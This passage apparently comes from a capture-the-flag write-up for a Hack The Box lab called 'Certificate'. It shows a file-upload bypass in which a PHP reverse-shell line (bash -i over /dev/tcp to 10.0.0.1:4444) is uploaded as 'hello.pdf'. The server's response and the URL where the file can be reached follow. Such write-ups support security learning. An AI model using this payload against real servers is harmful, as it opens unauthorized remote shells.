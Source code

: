 ```shell
<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>

------WebKitFormBoundarycjDWmABXxGevgRFE--

```

This time it got accepted and delivered us a `static URL` on which we could access our file.

```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:47:24 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10153


<--- CUT FOR BREVITY --->
                <div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/hello.pdf)

![](images/2025-06-01_10-49_80_uploaded_files_location.png)
